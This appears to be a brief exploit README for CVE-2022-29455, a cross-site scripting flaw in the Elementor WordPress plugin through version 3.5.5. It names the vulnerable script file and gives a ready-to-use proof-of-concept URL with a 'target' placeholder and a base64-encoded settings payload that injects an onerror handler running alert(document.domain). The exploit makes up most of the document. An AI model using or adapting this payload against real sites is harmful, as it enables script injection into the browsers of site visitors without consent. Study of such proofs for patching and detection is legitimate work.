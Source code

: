 # CVE-2022-29455

Wordpress Vulnerability - XSS ( Cross-Site Scripting )

## **Vulnerability Location**
```https://add your target here/wp-content/plugins/elementor/assets/js/frontend.min.js```

## Vulnerable Version <= 3.5.5 versions

## **Proof of Concept (Exploit)**
```https://add your target here/#elementor-action:action=lightbox&settings=eyJ0eXBlIjoidmlkZW8iLCJ1cmwiOiJodHRwOi8vIiwidmlkZW9UeXBlIjoiaG9zdGVkIiwidmlkZW9QYXJhbXMiOnsib25lcnJvciI6ImFsZXJ0KGRvY3VtZW50LmRvbWFpbikifX0=```
